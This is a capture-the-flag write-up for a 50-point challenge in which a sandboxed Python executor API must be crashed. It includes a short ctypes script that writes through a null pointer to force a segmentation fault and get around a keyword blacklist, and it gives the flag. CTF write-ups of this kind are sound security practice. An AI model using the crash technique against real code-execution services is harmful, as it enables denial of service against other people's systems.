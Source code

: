# CTF Challenge Writeup: CrashPython

## Challenge Information

- **Name:** Crash Python
- **Category:** Misc
- **Points:** 50
- **Description:** I am hosting an uncrashable Python executor API. Crash it to get the flag.
- **Files:** [dist.zip](files/crashpython-dist.zip)

![CrashPython-1.png](img/CrashPython-1.png)

## Challenge Analysis

The files contain a environment that is not supposed to crash, our job is to force a crash!

## Solution

### Step 1: Analyze the files and list our restrictions/constrains

We see some words that are actively blacklisted:

![CrashPython-2.png](img/CrashPython-2.png)

### Step 2: Search for flag prerequisites

Inside the 'app.py' file we find the following check:

![CrashPython-3.png](img/CrashPython-3.png)

### Step 3: Write a script

Now it's up to me to write a script that exits with status 139, gives a 'Segmentation fault' and creates status 11:
```python
import ctypes

def segmentation_fault():
    invalid_ptr = ctypes.POINTER(ctypes.c_int)()
    ctypes.memset(invalid_ptr, 0, ctypes.sizeof(ctypes.c_int))

segmentation_fault()
```

Done!

## Flag

`grey{pyth0n-cv3-2021-3177_0r_n0t?_cd924ee8df15912dd55c718685517d24}`

## Conclusion

Good challenge to do when you're stuck on a hard one!

## Writeup Author

- Twitter: [@Cyber8RU7U5](https://twitter.com/Cyber8RU7U5)
- GitHub: [Cyber8RU7U5](https://github.com/Cyber8RU7U5)

